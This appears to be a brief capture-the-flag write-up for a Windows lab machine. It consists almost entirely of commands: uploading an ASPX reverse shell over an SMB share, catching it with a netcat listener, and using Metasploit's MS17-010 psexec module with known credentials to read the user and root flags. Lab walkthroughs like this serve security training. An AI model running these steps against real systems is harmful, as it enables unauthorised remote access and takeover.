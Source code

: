 - connect to smb server
~~~
$ export ip= 
$ smbclient \\\\$ip\\nt4wrksv 
~~~
- upload shell or any file you want 
link: https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
~~~
$ put shell.aspx

$ nc -lvnp 1234

$ curl http://$ip:49663/nt4wrksv/shell.aspx -v

$ cd c:\Users\Bob\Desktop

$ type user.txt
~~~

### Root Flag
~~~
$ msfconsole 

$ use windows/smb/ms17_010_psexec

$ show options

$ set RHOSTS $ip

$ set LHOST $your_ip

$ set SHARE nt4wrksv  # by default the exploit uses 
ADMIN$, you need change this

$ set SMBUser Bob

$ set SMBPAss 'password' 

$ run 

$ cd c:\Users\Administrator\Desktop\

$ cat root.txt # if you use meterpreter :)
~~~


